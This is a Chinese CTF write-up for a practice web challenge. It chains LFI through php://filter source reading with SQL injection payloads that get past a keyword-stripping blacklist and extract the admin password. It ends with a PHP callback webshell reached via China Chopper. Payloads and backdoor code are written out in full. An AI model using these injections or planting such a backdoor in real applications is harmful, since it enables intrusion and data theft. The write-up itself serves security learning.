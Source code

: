 ```yaml
---
title: 南邮CTF平台综合题2writeup
tags: [sqli , ctf ]
date: 2017-10-04 21:04:34
categories: writeup
comments: true
description: 通过SQL注入得到后台登陆密码，连接管理员自用的回调后门。
---
```


> 非xss题 但是欢迎留言~
> 地址：[get the flag](http://cms.nuptzj.cn/)

## 读取源码

在页面底部发现一个这样的链接：*http://cms.nuptzj.cn/about.php?file=sm.txt* ，说明题目提供了读取文件功能，如果使用 *[file://协议](http://php.net/manual/en/wrappers.file.php)* 读取，HTML预留字符会以字符实体显示，看起来不方便，所以也可以编码读取后再本地解码。

```php
http://cms.nuptzj.cn/about.php?file=php://filter/convert.base64-encode/resource=filename
在拿到的文件里搜索 ".php" ，顺藤摸瓜，能找到并读取到的文件有：
  sm.txt
  about.php
  index.php
  passencode.php
  say.php
  antixss.php
  so.php
  preview.php
  antiinject.php
  -----------------------------
  知道有 loginxlcteam目录或文件 和 config.php 但还读不到 ；还不知道有list.php ,xlcteam.php
```

### 关于*file://协议*

 *file://协议* ([RFC8089](https://tools.ietf.org/html/rfc8089) )是用来访问本地文件系统的，因为文件系统 是 PHP 使用的默认封装协议，因此在fopen()、 copy()、 file_exists() 、 file_get_contents()和 filesize() 等文件系统函数中是支持的。

在谷歌/火狐浏览器的URL框里输入  *file:///D:/*  或者在Linux命令行里敲 *lynx file:///* 都可以看到效果。

[PHP文档](http://php.net/manual/en/wrappers.file.php#refsect1-wrappers.file-usage) 提供的用法如下：

> - /path/to/file.ext
> - relative/path/to/file.ext
> - fileInCwd.ext
> - C:/path/to/winfile.ext
> - C:\path\to\winfile.ext
> - \\smbserver\share\path\to\winfile.ext
> - file:///path/to/file.ext

### 关于PHP的过滤器(*php://filter*)

 [php://filter](http://php.net/manual/en/wrappers.php.php#wrappers.php.filter) 和 [可用的过滤器列表](http://php.net/manual/en/filters.php)。主要用在数据流内容读取之前做些筛选过滤，可指定过滤器应用在读模式还是写模式，不指定则两者都应用，也可复合使用多个过滤器，使用管道符隔开即可。

对于CTFer典型的用法像是这样：

> php://filter/read= < filter list to apply to read chain >/resource= < stream to be filtered >
>
> php://filter/read=string.toupper|string.rot13/resource=https://findneo.github.io/
>
> php://filter/convert.base64-encode/resource=filename

常用过滤器列表：

* String Filters
  * string.rot13
  * string.toupper
  * string.tolower
  * string.strip_tags
* Conversion Filters
  * convert.base64-encode & convert.base64-decode
  * convert.quoted-printable-encode & convert.quoted-printable-decode
* Compression Filters
* Encryption Filters

## 注入

全局搜索 *mysql_query* ，发现 *say.php,so.php,index.php* 都存在数据库操作。选择 *so.php* 下手。

```php
/*so.php*/
<?php
if($_SERVER['HTTP_USER_AGENT']!="Xlcteam Browser"){
echo '万恶滴黑阔，本功能只有用本公司开发的浏览器才可以用喔~';
    exit();
}
$id=$_POST['soid'];
include 'config.php';
include 'antiinject.php';
include 'antixss.php';
$id=antiinject($id);
$con = mysql_connect($db_address,$db_user,$db_pass) or die("不能连接到数据库！！".mysql_error());
mysql_select_db($db_name,$con);
$id=mysql_real_escape_string($id);
$result=mysql_query("SELECT * FROM `message` WHERE display=1 AND id=$id");
$rs=mysql_fetch_array($result);
echo htmlspecialchars($rs['nice']).':<br />&nbsp;&nbsp;&nbsp;&nbsp;'.antixss($rs['say']).'<br />';
mysql_free_result($result);
mysql_free_result($file);
mysql_close($con);
?>
---------------------------------------------------------------------------------------
/*antiinject.php*/
<?php
function antiinject($content){
$keyword=array("select","union","and","from",' ',"'",";",'"',"char","or","count","master","name","pass","admin","+","-","order","=");
$info=strtolower($content);
for($i=0;$i<=count($keyword);$i++){
 $info=str_replace($keyword[$i], '',$info);
}
return $info;
}
?>
```

 关注 3、11、14、15行。

1. burp抓包，修改 *User-Agent* 字段即可。

2.  *antiinject()* 过滤规则是按黑名单***依次***把关键字删除。

   1. 用黑名单里最后一个关键字 `=` 分隔即可绕过对多字符关键字的过滤。
   2. 用 `/**/` 代替空格符。
   3. 单字符关键字不太会弄，也许可以用各种编码绕过，不过我们暂时未必需要，有空格和这些多字符关键字，再加上不在黑名单里的 `<>/()` 已经可以开始搞事了。

3.  *mysql_real_escape_string()* 的功能是对`\x00, \n, \r, \, ', " , \x1a(撤销键,ctrl+z)` 加反斜杠转义，我们不用这些字符就是了。

4. 15行处将处理过的参数直接拼接到查询语句，因为查询结果有多列，又没有逗号可用，不好用内联注入，于是尝试基于逻辑的注入。数据库结构在 *sm.txt* 已经给出。

5.  ```sql
   我们想要在数据库执行的查询语句是这样：
   SELECT * FROM `message` WHERE display=1 AND id=1 and ascii(mid((select userpass from admin)from 1 for 1))>65

   因为没法用空格，所以实际上是这样：
   SELECT * FROM `message` WHERE display=1 AND id=   1/**/and/**/ascii(mid((select/**/userpass/**/from/**/admin)from/**/1/**/for/**/1))>65

   希望经过过滤的 id 值为：
   1/**/and/**/ascii(mid((select/**/userpass/**/from/**/admin)from/**/1/**/for/**/1))>65

   向 so.php post过去的参数应该是：
   soid=1/**/an=d/**/ascii(mid((selec=t/**/userpas=s/**/fro=m/**/admi=n)fro=m/**/1/**/fo=r/**/1))>65

   使用burp爆破
   soid=1/**/an=d/**/ascii(mid((selec=t/**/userpas=s/**/fro=m/**/admi=n)fro=m/**/§1§/**/fo=r/**/1))>§65§
   使用 Cluster Bomb 模式，第一个payload 为 [1-40] ，第二个为 [31,32,47-57](经过几次尝试发现usepass字段只有[ \d] )
   得到[49,48,50,32,49,49,55,32,57,57,32,49,48,55,32,49,49,52,32,48,49,55,32,49,49,48,32,49,49,54,32,49,49,55]
   也就是[102 ,117 ,99 ,107 ,114 ,117 ,110 ,116 ,117]即funckruntu，访问loginxlcteam登陆即可

   进后台得知有管理员留的后门 xlcteam.php ，于是读一下这个文件
   ```

## 意外

看别人的writeup时惊喜的发现原来并没有过滤逗号，这意味着可以一次注出来管理员密码！所以深夜里我是有些激动的。

```
soid=1/**/an=d/**/0/**/unio=n/**/selec=t/**/null,usernam=e,userpas=s,null/**/fro=m/**/admi=n

//当然，在充分掌握数据库结构前需要一些尝试。
```

## 使用回调后门

回调后门似乎是 phithon 师傅最先这样称呼的，在 [*创造tips的秘籍——PHP回调后门* ](https://www.leavesongs.com/PENETRATION/php-callback-backdoor.html)里做了具体介绍。

```php
//xlcteam.php
<?php
$e = $_REQUEST['www'];
$arr = array($_POST['wtf'] => '|.*|e',);
array_walk($arr, $e, '');
?>
  //使用菜刀连接即可。
  //url : http://cms.nuptzj.cn/xlcteam.php?www=preg_replace
  //密码:	wtf
```

菜刀连上后拿到所有文件，发现 config.php 里有数据库配置，于是就可以操作整个数据库了。

是的，中午吃的是美味的黄焖鸡 \o/



![](cmsnupt.png)

![](arlogined.png)